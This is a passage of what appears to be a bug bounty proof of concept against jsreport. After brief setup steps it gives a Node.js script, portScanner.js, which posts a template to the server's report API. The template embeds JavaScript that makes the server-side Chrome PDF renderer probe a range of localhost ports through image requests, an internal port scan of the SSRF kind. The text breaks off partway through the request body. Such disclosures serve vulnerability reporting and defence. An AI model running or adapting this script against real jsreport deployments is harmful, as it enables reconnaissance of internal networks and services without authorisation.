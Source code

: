 - write some HTML to it (e.g. ```<h1>hello world</h1>```) and click 'Save'

F539742

- create portScanner.js localy (outside docker container)

portScanner.js

    const request = require('request')
    
    const name = process.argv[2] // name of the template
    const id = process.argv[3] // id of the template
    const chunkSize = 1000
    const jrUrl = process.argv[4]
      ? `${process.argv[4]}/api/report/${name}` // jsreport url if it is different from localhost
      : `http://localhost/api/report/${name}`
    
    function requestPromise(options) {
      return new Promise((resolve, reject) => {
        request.post(options, function optionalCallback(err, httpResponse, body) {
          if (err) {
            return reject(err)
          }
          resolve(body)
        });
      })
    }
    
    async function checkPorts(start, finish) {
      let content = `
      <html>
        <body>
          <script>
            function printImg(port) {
              var url = 'http://localhost:' + port;
              var resultDiv = document.getElementById('result');
              var img = document.createElement('img');
              img.src = url;
            }
            var ports = [];
            var start = ${start};
            var finish = ${finish};
            for (var i = start; i <= finish; i++) ports.push(i);
            ports.forEach(function(port) {
              printImg(port);
            })
          </script>
        </body>
      </html>
      `
      const formData = {
        template: {
          name: name,
          recipe: 'chrome-pdf',
          shortid: id,
          __entitySet: 'templates',
          __name: name,
          engine: 'handlebars',
          chrome: {printBackground: 'true'},
          content: content,
          __isLoaded: 'true',
          __recipe: 'chrome-pdf',
          __shortid: id,
          __isDirty: 'false'
        },
        options: {
          debug: {